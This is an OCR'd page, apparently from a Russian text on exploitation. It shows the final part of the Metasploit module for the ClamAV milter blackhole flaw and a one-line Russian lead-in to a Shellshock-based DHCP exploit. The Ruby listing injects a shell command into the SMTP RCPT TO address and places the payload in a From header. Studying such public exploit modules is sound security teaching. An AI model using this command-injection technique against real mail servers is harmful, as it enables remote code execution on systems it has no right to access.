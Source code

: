 \begin{lstlisting}[caption=modules/exploits/unix/smtp/clamav\_milter\_blackhole.rb]
    sploit = "sh msg*" # Execute the clamav-milter temporary file.

    # Create the malicious RCPT TO before connecting,
    # to make good use of the Msf::Exploit::Smtp support.

    oldaddr = datastore['MAILTO']
    newaddr = oldaddr.split('@')

    datastore['MAILTO'] = "<#{newaddr[0]}+\"|#{sploit}\"@#{newaddr[1]}>"

    connect_login

    sock.put("From: ;#{payload.encoded}\r\n") # We are able to stick our payload in this header
    sock.put(".\r\n")

    # Clean up RCPT TO afterwards

    datastore['MAILTO'] = oldaddr

    handler
    disconnect
  end

end
\end{lstlisting}

Эксплоит для DHCP. Причина - известная уязвимость в Bash под названием Shellshock, позволяющая выполнить код на сервере, когда программа пытается установить переменную окружения.

